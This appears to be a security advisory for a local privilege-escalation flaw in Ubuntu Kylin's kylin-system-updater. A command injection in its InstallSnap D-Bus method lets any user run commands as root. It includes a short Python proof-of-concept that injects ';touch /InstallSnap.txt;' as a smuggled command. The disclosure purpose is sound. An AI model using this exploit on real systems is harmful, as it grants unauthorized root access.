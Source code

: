 # UbuntuKylin OS privilege escalation vulnerability

Author: cn-lwj（cn_lwj@163.com）\
Unit: Ubuntukylin.（https://www.ubuntukylin.com/index-en.html）

## Report
### Describe
There is a command injection vulnerability in the InstallSnap function in the update component (Kylin-system-updater) of the Ubuntu Kylin OS system. Any user can call the vulnerability, causing ordinary users to obtain root privileges through the vulnerability.

### Hazard level
High
### Affected version
- Ubuntukylin：kylin-system-updater <= 1.4.20kord

### POC&&EXP
ISO Download:\
https://www.ubuntukylin.com/downloads/download.php?id=91

exp.py
```
import dbus
import os

payload  = ';touch /InstallSnap.txt;'
bus=dbus.SystemBus()
xattr=bus.get_object('com.kylin.systemupgrade','/com/kylin/systemupgrade')
iface=dbus.Interface(xattr,dbus_interface='com.kylin.systemupgrade.interface')
prop=iface.InstallSnap("{}".format(payload))
print(prop)
os.system("ls -l /InstallSnap.txt")
```

### example
![1.png](https://github.com/cn-lwj/vuldb/blob/master/imgs/1.png)
